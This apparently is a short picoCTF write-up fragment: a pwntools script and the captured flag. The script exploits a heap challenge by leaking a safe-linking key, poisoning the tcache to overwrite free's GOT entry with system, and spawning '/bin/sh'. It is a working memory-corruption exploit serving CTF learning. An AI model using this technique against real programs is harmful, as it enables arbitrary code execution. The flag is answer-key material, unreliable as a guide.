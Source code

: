 ```py
add_horse(0x7, 0x17, b'\xff')

race()

io.recvuntil(b'a' * 8)
io.recvuntil(b'\n')
xor_leak = unpack(io.recvuntil(b'|', drop=True).strip(), 'all')

info(f'leak: {xor_leak:04x}')

remove_horse(0)
remove_horse(1)

fake = exe.got['free'] & 0xfffffffffffffff0
head_start(0x1, pack(fake ^ xor_leak) + b'\xff', 0)

add_horse(1, 0x17, b'/bin/sh\x00\xff')

add_horse(0, 0x17, flat({0x8: pack(exe.plt['system'])}) + b'\xff')

remove_horse(1)

io.interactive()
```

## Flag

```
picoCTF{t_cache_4ll_th3_w4y_2_th4_b4nk_27988d2c}
```
